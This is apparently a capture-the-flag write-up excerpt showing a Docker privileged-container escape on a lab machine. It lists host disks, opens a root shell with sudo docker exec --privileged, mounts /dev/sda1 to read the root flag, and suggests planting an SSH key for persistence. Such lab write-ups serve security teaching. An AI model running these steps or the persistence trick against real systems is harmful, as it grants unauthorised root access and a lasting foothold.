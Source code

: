 We have the `--privileged` option...

From the hacktricks privileged website:
```
Mount /dev

In a privileged container, all the devices can be accessed in /dev/. Therefore you can escape by mounting the disk of the host.
```


Seems simple.

```
boris@data:/proc/1570$ lsblk
NAME   MAJ:MIN RM   SIZE RO TYPE MOUNTPOINT
loop0    7:0    0  42.2M  1 loop /snap/snapd/14066
loop1    7:1    0  55.5M  1 loop /snap/core18/2253
loop2    7:2    0 116.6M  1 loop /snap/docker/1125
loop3    7:3    0    25M  1 loop /snap/amazon-ssm-agent/4046
sda      8:0    0     6G  0 disk
├─sda1   8:1    0     5G  0 part /
└─sda2   8:2    0  1023M  0 part [SWAP]

```
The disk is sda1

Let's get a root shell and mount that with a privileged container.

```bash
# Utilizing -u 0 for the root user on the container
sudo docker exec --privileged -it -u 0 e6ff5b1cbc85cdb2157879161e42a08c1062da655f5a6b7e24488342339d4b81 /bin/bash
```
```bash
bash-5.1# whoami
root
bash-5.1# ls /dev/sda1
/dev/sda1
bash-5.1# mkdir -p /mnt/the_root
bash-5.1# mount /dev/sda1 /mnt/the_root
bash-5.1# cd /mnt/the_root/root
bash-5.1# ls -la
```
```
total 36
drwx------    7 root     root          4096 Sep 30 02:59 .
drwxr-xr-x   23 root     root          4096 Jun  4 13:20 ..
lrwxrwxrwx    1 root     root             9 Jan 23  2022 .bash_history -> /dev/null
drwx------    2 root     root          4096 Apr  9 09:05 .cache
drwx------    3 root     root          4096 Apr  9 09:05 .gnupg
drwxr-xr-x    3 root     root          4096 Jan 23  2022 .local
-rw-r--r--    1 root     root           148 Aug 17  2015 .profile
drwx------    2 root     root          4096 Jan 23  2022 .ssh
-rw-r-----    1 root     root            33 Sep 30 02:59 root.txt
drwxr-xr-x    4 root     root          4096 Jan 23  2022 snap

```

And there we go. We have the root flag
And for persistence, you can easily stash a ssh key here or something and just come back in.





